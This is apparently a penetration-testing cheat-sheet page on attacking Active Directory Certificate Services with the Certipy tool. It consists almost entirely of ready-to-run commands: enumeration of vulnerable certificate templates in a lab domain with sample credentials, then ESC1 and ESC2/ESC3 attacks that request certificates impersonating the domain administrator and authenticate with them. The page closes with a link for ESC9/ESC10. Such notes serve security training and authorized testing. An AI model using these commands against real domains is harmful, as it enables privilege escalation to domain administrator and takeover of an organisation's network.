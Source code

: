 ## Reconnaissance and enumeration&#x20;

{% code overflow="wrap" fullWidth="true" %}
```bash
# Search the certificate server, and dump all the information in three formats
certipy find -u khal.drogo@essos.local -p 'horse' -dc-ip 192.168.56.12
# Show just the vulnerable templates
certipy find -u khal.drogo@essos.local -p 'horse' -vulnerable -dc-ip 192.168.56.12 -stdout
# To see it on Bloodhound, PKI->Find certificate authority, select the certificate authority and click : “see enabled templates”
```
{% endcode %}

## ESC1

{% code overflow="wrap" fullWidth="true" %}
```bash
# Enumerate
certipy find -u user@domain.local -p 'password' -dc-ip $DC_IP
# Query the certificate (target is ca server or domain or IP, template is the vulnerable template, upn is target user to impersonate
certipy req -u user@domain.local -p 'password' -target $CA_SERVER -template ESC1 -ca DOMAIN-CA -upn administrator@domain.local
# Authentication with the pfx we request before
certipy auth -pfx administrator.pfx -dc-ip $DC_IP
```
{% endcode %}

## ESC2 & ESC3

{% code overflow="wrap" fullWidth="true" %}
```bash
#     Query cert
certipy req -u user@domain.local -p 'password' -target $IP -template ESC2 -ca DOMAIN-CA
#     Query cert with the Certificate Request Agent certificate we get before (-pfx)
certipy req -u user@domain.local -p 'password' -target $IP -template User -ca DOMAIN-CA -on-behalf-of 'domain\administrator' -pfx user.pfx
# Auth
certipy auth -pfx administrator.pfx -dc-ip $IP
# We also can do the same with the ESC3-CRA and ESC3 templates
certipy req -u user@domain.local -p 'password' -target $IP -template ESC3-CRA -ca DOMAIN-CA
certipy req -u user@domain.local -p 'password' -target $IP -template ESC3 -ca DOMAIN-CA -on-behalf-of 'domain\administrator' -pfx user.pfx
certipy auth -pfx administrator.pfx -username administrator -domain domain.local -dc-ip $DC_IP
```
{% endcode %}

## ESC9, ESC10...

[https://github.com/ly4k/Certipy?tab=readme-ov-file#esc9--esc10](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc9--esc10)
